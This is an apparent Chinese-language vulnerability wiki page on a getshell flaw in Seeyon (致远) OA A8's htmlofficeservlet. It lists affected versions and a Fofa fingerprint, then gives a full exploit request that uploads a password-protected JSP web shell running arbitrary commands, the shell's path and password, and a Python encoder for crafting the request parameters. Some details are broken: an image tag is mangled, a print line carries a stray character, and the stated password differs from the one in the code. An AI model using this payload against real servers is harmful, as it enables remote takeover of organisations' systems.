

致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞简介
------------

访问https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/19f51e83094c4ce79a3da658a24f961b.png\"
alt=\"1.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>

二、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

三、复现过程
------------

### 指纹

    https://www.0-sec.org/seeyon/htmlofficeservlet/seeyon/index.jsp
    seeyon
    Fofa：app="用友-致远OA"

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**https://www.0-sec.org/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv

    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"

    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str

    def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str

    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/
